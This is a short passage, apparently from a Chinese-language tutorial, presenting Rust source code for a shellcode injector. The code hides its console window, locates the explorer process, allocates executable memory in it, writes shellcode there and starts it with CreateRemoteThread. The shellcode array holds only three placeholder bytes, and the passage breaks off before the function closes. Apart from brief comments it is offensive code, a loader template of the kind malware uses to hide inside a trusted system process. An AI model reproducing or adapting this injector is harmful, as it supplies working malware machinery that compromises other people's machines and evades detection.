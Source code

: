 这里以 CreateRemoteThread 来执行

```plain
#![windows_subsystem = "windows"]

use std::ptr;
use sysinfo::{PidExt, ProcessExt, System, SystemExt}; 
use windows_sys::Win32::{
    Foundation::*,
    System::{Diagnostics::Debug::*, Threading::*, Memory::*},
};

fn main() {
    let shellcode: [u8; 3] = [0xfc, 0x48, 0x83, ];  // shellcode

    let s = System::new_all();
    let process_id: u32 = s
        .processes_by_name("explorer") // 注入explorer进程
        .next() 
        .unwrap() 
        .pid() 
        .as_u32(); 

    inject(&shellcode, process_id);
}


fn inject(shellcode: &[u8], process_id: u32) {
    unsafe {
        // 使用 OpenProcess 获取进程的句柄
        let p_handle = OpenProcess(PROCESS_ALL_ACCESS, 0, process_id);

        // 分配RWX内存
        let r_ptr = VirtualAllocEx(
            p_handle,
            ptr::null(),
            shellcode.len(),
            MEM_COMMIT,
            PAGE_EXECUTE_READWRITE,
        );

        // 写入shellcode到注入的进程
        let mut bytes_written = 0;
        WriteProcessMemory(
            p_handle,
            r_ptr,
            shellcode.as_ptr() as _, 
            shellcode.len(),
            &mut bytes_written,
        );

        // 使用CreateRemoteThread来执行
        let t_handle = CreateRemoteThread(
            p_handle,
            ptr::null(),
            0,
            Some(std::mem::transmute(r_ptr)), 
            ptr::null(),
            0,
            ptr::null_mut(),
        );

        CloseHandle(t_handle);
        CloseHandle(p_handle);
```